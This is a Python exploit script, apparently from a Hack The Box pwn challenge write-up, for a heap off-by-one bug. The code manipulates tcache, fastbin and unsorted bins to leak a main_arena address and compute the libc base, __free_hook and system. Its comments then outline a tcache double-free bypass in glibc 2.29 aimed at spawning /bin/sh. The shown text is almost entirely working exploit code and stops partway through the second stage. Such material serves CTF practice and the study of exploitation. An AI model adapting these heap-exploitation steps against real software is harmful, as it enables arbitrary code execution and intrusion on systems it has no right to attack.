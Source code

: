 ```python

# Vulnerability Analysis
# ---------------------
# There's a off-by-one bug when the description is `read' from stdin.
# The description size MUST BE less than or equal to the bytes read.
#
# Exploit Development
# -------------------
# 1) Leak GLIBC
#
# Preparation:
# 7 pairs of chunk for tcache bins.
# 2 pairs of chunk: one pair for unsorted bin; another to prevent top chunk consolidation.
for i in range(8):
	c = chr(0x41 + i)
	add(c, 0x100, c * 0x100)

add('\x49', 0x20, '\x49' * 0x20) # prevent top chunk consolidation

# free() the first 8 pairs of chunk
# The first 7 pairs fill up tcache[0x40] and tcache[0x110] bins respectively.
# The 8th pair fills up fastbin[0x40] and unsorted[0x110] bins respectively.
for i in range(8):
	delete(i)

# Empty tcache bins in LIFO manner
for i in range(7):
	c = chr(0x41 + i)
	add(c, 0x100, c * 0x100)

# Add the 8th pair of chunk
# The first malloc() will grab a chunk from fastbin[0x40] since tcache bins are empty.
# If description size is 0, the second malloc() is skipped; FD and BK are untouched.
add('\x48', 0x0, '')

# Display description which contains the address of main_arena.
display(7)
r.recvuntil("Description         ]: ")

libc = ELF("./libc.so.6")

# Calculate libc, __free_hook and system
main_arena_off = 0x1e4ca0
main_arena     = unpack(r.recv(6), 48)
libc_base      = main_arena - main_arena_off
libc.address   = libc_base
free_hook      = libc.symbols["__free_hook"]
system         = libc.symbols["system"]
shell          = "/bin/sh\x00"

info("libc        : %s" % hex(libc_base))
info("__free_hook : %s" % hex(free_hook))
info("system      : %s" % hex(system))

# Exploit Development
# -------------------
# 2) Bypass tcache double-free mitigation in GLIBC 2.29
#
# Preparation:
# free() the first pair since we need a 0x40 chunk from the tcache[0x40] bin.
# Add a 0x40 chunk and a 0x120 chunk. The 0x120 chunk is allocated from top chunk.
# It's important that the 0x120 chunk is next to the last allocated chunk (0x30).
# We are going to use the off-by-one bug to change the size of the 0x120 chunk to 0x100.
```

[1]: https://www.hackthebox.eu/home/machines/profile/221
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/64903
[4]: https://www.hackthebox.eu/